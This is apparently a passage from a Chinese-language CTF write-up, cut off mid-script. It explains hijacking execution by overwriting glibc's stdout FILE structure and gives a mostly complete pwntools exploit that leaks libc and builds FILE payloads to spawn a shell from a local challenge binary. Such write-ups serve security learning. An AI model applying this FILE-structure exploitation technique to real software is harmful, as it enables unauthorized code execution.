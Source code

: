 覆盖stdout结构体劫持执行流：

1. _IO_write_ptr = _IO_buf_end = p64((new_size - 100) // 2) 
2. flags = p64(0xfbad1800)
3. fp+0xe0 = system
4. 其他可以按照原数据填充

## exp

```python
#coding:utf-8
from pwn import *
context(arch='amd64',log_level='debug')
context.terminal = ["/bin/tmux", "sp",'-h']
def new(size, offset, data, quiet=False):
    if quiet:
        p.sendline("1")
        p.sendline(str(size))
        p.sendline(str(offset))
        p.sendline(data)
    else:
        p.sendlineafter("> ", "1")
        p.sendlineafter(": ", str(size))
        p.sendlineafter(": ", str(offset))
        p.sendlineafter(": ", data)


libc = ELF("/home/xxx/glibc-all-in-one/libs/2.27-3ubuntu1.2_amd64/libc.so.6")
p=process("./goodfile")
# elf=ELF('./goodfile')
# print (elf.libc)
# libc=elf.libc
# make chunk adjacent to libc
base = 0x200000
space = (base + 0x1000) * 1 - 0x10
# make _IO_read_end = _IO_write_base
new(base, space + libc.sym['_IO_2_1_stdout_'] + 0x10 + 1, 'A')
space = (base + 0x1000) * 2 - 0x10
new(base, space + libc.sym['_IO_2_1_stdout_'] + 0x20 + 1, 'B', quiet=True)
libc_base = u64(p.recvline()[0x08:0x10]) - 0x3ed8b0
success("libc = " + hex(libc_base))

# get the shell!
space = (base + 0x1000) * 3 - 0x10
new(base, space + libc.sym['_IO_2_1_stdin_'] + 0x38 + 1, 'C')
gdb.attach(p)

# stdin
payload = p64(0xfbad208b)
# make stdin's read_ptr >= read_end to trigger __underflow(fp)
payload += p64(libc_base + libc.sym['_IO_2_1_stdout_'] + 0x84)
# make _IO_buf_base point to stdout,copy the buffer to user memory
payload += p64(libc_base + libc.sym['_IO_2_1_stdout_']) * 6
# make IO_buf_end = stdout + 0x100
payload += p64(libc_base + libc.sym['_IO_2_1_stdout_'] + 0x100)
payload += b'\0' * (8*7 + 4) # padding

new_size = libc_base + libc.search('/bin/sh\x00').next()
# stdout
payload += p64(0xfbad1800)
payload += p64(0) # _IO_read_ptr
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += p64(0) # _IO_write_base
```